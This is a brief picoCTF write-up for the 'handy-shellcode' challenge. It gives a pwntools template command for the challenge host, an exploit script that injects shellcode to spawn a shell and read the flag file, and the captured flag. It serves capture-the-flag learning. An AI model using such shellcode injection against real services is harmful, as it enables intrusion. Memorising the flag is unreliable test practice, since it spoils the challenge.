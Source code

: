 ## Using the pwntools template cli

```console
pwn template --host 2019shell1.picoctf.com --user ${PICOUSER} --pass ${PICOPASS} --path /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/vuln
```

### Mods in the end of the exploit.py generated

```python
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

io = start()

io.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
io.sendlineafter(
    '$ ', 'cat /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5/flag.txt')

io.close()
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}

